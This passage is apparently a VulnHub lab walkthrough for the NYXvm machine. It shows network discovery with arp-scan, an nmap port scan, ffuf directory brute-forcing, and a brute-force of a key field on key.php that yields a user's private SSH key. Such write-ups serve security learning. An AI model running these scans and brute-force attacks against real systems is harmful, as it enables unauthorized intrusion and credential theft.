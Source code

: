 # NYXvm

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:98:a9:81	VMware, Inc.
192.168.127.254	00:50:56:f6:01:2e	VMware, Inc.
```

The ip address is `192.168.127.133`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -p- -sT -sV -v -oN nmap.out 192.168.127.133
Nmap scan report for 192.168.127.133
Host is up (0.00091s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 00:0C:29:98:A9:81 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

on the main http page you can find nothing, i used ffuf for directory bruteforcing and file enumeration :

```bash
ffuf -w /root/wordlist/raft-medium-words.txt -u http://192.168.127.133/FUZZ -e .php,.zip,.txt,.rar,.gz,.bak,.backup,.old -fc 403
```

and i found a file called `key.php` :


![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7a3152ed-373c-4fb6-b81b-a5a566011137)

for finding the key, i used several injection methods, sqli, ci and different payloads, but finally i captured one of the requests in burp and used the same headers in ffuf to send the POST request :

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.133/key.php -X POST -d key=FUZZ -x http://127.0.0.1:8080 -H 'Content-Type: application/x-www-form-urlencoded'

1165685715469           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5ms]
```

open it in burp :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fa03f419-8fc1-43b3-931a-602649e563f7)

and it gives you a private ssh key for user `mpampis`




